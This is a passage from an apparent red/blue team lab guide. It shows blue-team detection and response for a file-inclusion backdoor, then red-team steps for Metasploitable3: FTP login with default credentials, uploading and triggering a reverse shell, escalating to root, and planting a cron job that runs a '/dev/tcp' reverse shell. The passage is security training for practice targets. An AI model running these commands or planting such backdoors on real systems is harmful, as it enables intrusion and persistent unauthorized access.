 **Blue Team**:
- **Detection**:
  - Wazuh: File modification alerts.
  - Zeek: `zeek-*` for HTTP GET to `/vulnerabilities/fi/`.
  - Suricata: LFI signatures.
  - Osquery:
    ```sql
    SELECT * FROM file WHERE path = '/var/www/html/backdoor.php';
    ```
- **Response**:
  - TheHive case, Cortex, MISP.
  - n8n: Wazuh alert → remove `backdoor.php`.
- **Collaboration**:
  - Red team shares LFI payload.
  - Blue team updates Wazuh file integrity rules.

---

##### Exercise 5: Metasploitable3 FTP to Root with Bash Backdoor
**Objective**: Exploit FTP, gain shell, escalate to root, and plant Bash backdoor.

**Red Team (Kali)**:
1. **Recon**:
   ```bash
   nmap -sV -p 21 metasploitable3
   ```
2. **FTP Access**:
   ```bash
   ftp metasploitable3
   ```
   Credentials: `vagrant:vagrant`.
3. **Shell**:
   - Upload reverse shell:
     ```bash
     curl -o reverse_shell.sh https://raw.githubusercontent.com/pentestmonkey/unix-privesc-check/master/reverse_shell.sh
     ```
     Edit: `LHOST=kali`, `LPORT=4448`.
   - Upload via FTP:
     ```bash
     ftp metasploitable3
     put reverse_shell.sh
     quit
     ```
   - Listener:
     ```bash
     nc -lvnp 4448
     ```
   - Trigger (via SSH or another service):
     ```bash
     ssh vagrant@metasploitable3 "bash /home/vagrant/reverse_shell.sh"
     ```
4. **Root**:
   ```bash
   sudo -l
   sudo su
   whoami  # root
   ```
5. **Backdoor**:
   ```bash
   echo '#!/bin/bash' > /root/backdoor.sh
   echo 'bash -i >& /dev/tcp/kali/4449 0>&1' >> /root/backdoor.sh
   chmod +x /root/backdoor.sh
   echo "* * * * * /root/backdoor.sh" >> /etc/crontab
   service cron restart
   ```